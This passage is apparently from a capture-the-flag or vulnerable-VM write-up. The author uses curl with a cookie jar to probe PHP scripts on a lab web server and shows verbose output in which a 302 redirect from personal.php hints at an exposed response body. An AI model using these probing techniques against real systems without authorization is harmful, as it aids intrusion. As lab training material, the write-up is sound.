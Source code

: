 Here I am telling curl to make a `GET` request to http://192.168.56.102/super_secret_login_path_muhahaha/index.php, using a cookies file called `cookies` when making the request (-b flag), and storing any cookies received in the same file (-c flag). I am also telling it to follow redirects in the case of `302`'s, and be verbose with output so that I can see the headers. Requesting `index.php` resulted in a cookie jar of:

```bash
root@kali:~# cat cookies
# Netscape HTTP Cookie File
# http://curl.haxx.se/rfc/cookie_spec.html
# This file was generated by libcurl! Edit at your own risk.

192.168.56.102 FALSE /  FALSE 0  PHPSESSID   8u300rbb0747fi6iocm0lt4310
```

Great. So I used this on all of the enumerated scripts, carefully checking for anything that would stand out. This part definitely took me some time to realize, but I finally saw the gem when I made a request to `personal.php`:

```bash
root@kali:~# curl -v -L http://192.168.56.102/super_secret_login_path_muhahaha/personal.php -c cookies -b cookies
* About to connect() to 192.168.56.102 port 80 (#0)
*   Trying 192.168.56.102...
* connected
* Connected to 192.168.56.102 (192.168.56.102) port 80 (#0)
> GET /super_secret_login_path_muhahaha/personal.php HTTP/1.1
> User-Agent: curl/7.26.0
> Host: 192.168.56.102
> Accept: */*
> Cookie: PHPSESSID=8u300rbb0747fi6iocm0lt4310
>
* HTTP 1.1 or later with persistent connection, pipelining supported
< HTTP/1.1 302 Found
< Date: Sun, 20 Jul 2014 07:48:17 GMT
< Server: Apache/2.2.22 (Debian)
< X-Powered-By: PHP/5.4.4-14+deb7u11
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Location: index.php
< Vary: Accept-Encoding
< Content-Length: 387
< Content-Type: text/html
<
* Ignoring the response-body     # WAIT A SEC...
* Connection #0 to host 192.168.56.102 left intact
* Issue another request to this URL: 'http://192.168.56.102/super_secret_login_path_muhahaha/index.php'
* Re-using existing connection! (#0) with host (nil)
* Connected to (nil) (192.168.56.102) port 80 (#0)
> GET /super_secret_login_path_muhahaha/index.php HTTP/1.1
```
